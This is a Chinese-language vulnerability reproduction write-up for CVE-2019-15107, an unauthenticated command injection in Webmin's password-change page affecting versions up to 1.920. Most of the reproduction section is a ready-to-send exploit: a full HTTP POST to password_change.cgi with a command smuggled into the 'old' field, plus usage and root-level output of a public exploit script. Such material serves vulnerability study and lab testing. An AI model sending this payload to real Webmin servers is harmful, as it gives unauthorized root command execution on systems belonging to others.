 （CVE-2019-15107）Webmin 远程命令执行漏洞
=========================================

一、漏洞简介
------------

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

二、漏洞影响
------------

Webmin \<= 1.920

三、复现过程
------------

### 环境搭建

执行如下命令，启动webmin 1.910：

    docker-compose up -d

执行完成后，访问[https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。](https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。)

### 复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是user=root），才会进入到修改/etc/shadow的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令id：

    POST /password_change.cgi HTTP/1.1
    Host: 0-sec.org:10000
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Cookie: redirect=1; testing=1; sid=x; sessiontest=1
    Referer: https://your-ip:10000/session_login.cgi
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 60

    user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-15107)Webmin远程命令执行漏洞/media/rId27.png)

### python usage:

python CVE\_2019\_15107.py <https://0-sec.org:10000> cmd

    C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

     _______           _______       _______  _______  __     _____       __    _______  __    _______  ______
    (  ____ \|\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ \/  \  (  __   )/ ___      | (    \/| )   ( || (    \/     \/   )  || (  )  |\/) ) ( (   ) )    \/) ) | (    \/\/) ) | (  )  |\/   )  )
    | |      | |   | || (__             /   )| | /   |  | | ( (___) |      | | | (____    | | | | /   |    /  /
    | |      ( (   ) )|  __)          _/   / | (/ /) |  | |  \____  |      | | (_____ \   | | | (/ /) |   /  /
    | |       \ \_/ / | (            /   _/  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /
    | (____/\  \   /  | (____/\     (   (__/\|  (__) |__) (_/\____) )    __) (_/\____) )__) (_|  (__) | /  /
    (_______/   \_/   (_______/_____\_______/(_______)\____/\______/_____\____/\______/ \____/(_______) \_/
                              (_____)                              (_____)
                                         python By jas502n



    vuln_url= https://0-sec.org:10000/password_change.cgi

    Command Result = uid=0(root) gid=0(root) groups=0(root)

四、参考链接
------------

> <https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html>
> <https://www.exploit-db.com/exploits/47230>
> <https://blog.firosolutions.com/exploits/webmin/>
